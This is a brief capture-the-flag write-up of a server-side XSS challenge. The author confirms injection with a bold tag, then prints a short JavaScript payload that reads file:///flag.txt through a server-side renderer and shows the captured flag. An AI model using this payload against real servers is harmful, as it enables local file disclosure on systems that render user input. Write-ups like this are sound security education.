 ```yaml
---
layout: default
title: XSS-Server-Side
---
```


They say they santized the user-input, so let's try to insert `<b>kobi</b>` in every possible field, and so what's happend.

As we can see, the name is bold, means xss is working. 
![name bold](./images/XSS-Server-Side_xss_PoC.png)

let's try to read `/flag.txt`

I took the code from here [hacktricks server side xss dynamic pdf](https://hacktricks.boitatech.com.br/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#read-local-file)
```js
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(this.responseText)};
x.open("GET","file:///flag.txt");x.send();
</script>
```


![FLAG](./images/XSS-Server-Side_FINAL.png)

**Flag:** **_`s3rv3r_s1d3_xss_1s_w4y_m0r3_fun`_**
